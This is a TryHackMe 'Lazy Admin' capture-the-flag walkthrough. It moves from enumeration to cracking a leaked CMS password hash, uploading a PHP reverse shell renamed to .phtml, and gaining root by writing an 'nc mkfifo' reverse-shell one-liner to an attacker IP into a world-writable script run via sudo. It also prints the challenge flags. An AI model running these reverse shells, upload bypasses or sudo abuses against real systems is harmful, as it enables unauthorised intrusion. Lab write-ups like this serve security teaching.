


# Lazy Admin

> Platform: TryHackMe
>
> Created by: MrSeth6797
>
> Difficulty: Easy

## Reconnaisance, Scanning & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA lazyadminscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:


Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```


When opening the **"/content"** page, we found out that the page is using the SweetRice CMS.


Then, try to enumerate more the page from **"/content/"**.
```bash
$ gobuster dir -u http://<TARGET-IP>/content/ -w /usr/share/wordlists/dirb/common.txt
```


Nice, now we can see more of the directory from the **"/content/"** page.

When going to the **"/content/as/"** page, it looks like we need to have the **valid credentials** to get to the page.


Try to explore more the enumerated directories. In **"/content/inc/"**, we can see that there are **mysql_backup folder** with the **.sql** file which seems to be the backup file of the database. Try to **retrieve** it.




From what we can see here, it looks like there is the **credentials that we may use** to login to page.
```sql
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
```

The credentials maybe **admin** or **manager**:
| username | password (hash) |
| :---: | :---: |
| admin | 42f749ade7f9e195bf475f37a44cafcb |
| manager | 42f749ade7f9e195bf475f37a44cafcb |

## Exploitation

So now, try to crack the hash by using [CrackStation](https://crackstation.net/) page.


Nice, now let's try to login to the page.


Looks like the correct credentials is **"manager:Password123"**.

After several minutes surfing the page, there are post functionalities where we can upload a file in it.


Scroll until down to view the upload file function


For a file to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```


Now, let's create a new post and upload the file.


Make sure to click done. However, it looks like it **doesn't allow us to upload .php** file. Try to **change the file extension from .php to .phtml** and upload it again.
```bash
$ mv phpreverseshell.php phpreverseshell.phtml
```

It will look like this if we are able to upload the file:


After finish uploading the file, from the GoBuster directory that we have found, we can try to check if the file that we have uploaded success or not in **"/content/attachment/"**


Now, before click the file, make sure to set netcat as listener with the same port that we have set in the reverse shell file, then click the file.
```bash
$ nc -lvnp <ATTACKER-PORT>
```



Find the user.txt.

```bash
$ pwd
/

$ ls /home
itguy

$ cd /home/itguy

$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

## 🏳️Flag: user.txt
>**THM{63e5bce9271952aad1113b6f1ac28a07}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, try to check the sudo permission first using the command:
```bash
$ sudo -l
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looks like we **able to use perl and execute backup.pl without the sudo password**. Try to check the content of **backup.pl**.
```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

When executing **backup.pl**, it will run the file **"/etc/copy.sh"**. Interesting. Now try to check the content of **copy.sh**.
```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.0.190 1234 >/tmp/f
```

This command looks like a reverse shell command. Basically, when running the **backup.pl** file, it will literally copy the command that we run in the target machine.

Also, when checking the permission of the **"/etc/copy.sh"** file, it looks like we are able to change the content of this file.
```bash
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 78 Jul 27 17:02 /etc/copy.sh
```

So, the plan is to change the **"/etc/copy.sh"** which will **reverse shell to our attacker machine**, then **run the "/home/itguy/backup.pl"** using the **"/usr/bin/perl" with sudo** which will **not require the sudo password**. To get the reverse shell command, I use the [revshell](https://www.revshells.com/) page and use the **"nc mkfifo" payload**. Set the IP with your attacker machine IP and different PORT other than the first one that you have used.
```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER-IP> <ATTACKER-PORT> >/tmp/f" > /etc/copy.sh
```

Before running the **backup.pl**, make sure to **set another netcat listener** but now with **different port** that you choose before. Then, run the **backup.pl** file but make sure to **run it as "/home/itguy/backup.pl"** as it will not ask us the sudo password based on the **"sudo -l" command** that we have run before.
```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Now, we need to wait and read the **"root.txt"** file to complete this machine.


## 🏳️Flag: root.txt
>**THM{6637f41d0177b6f37cb20d775124699f}**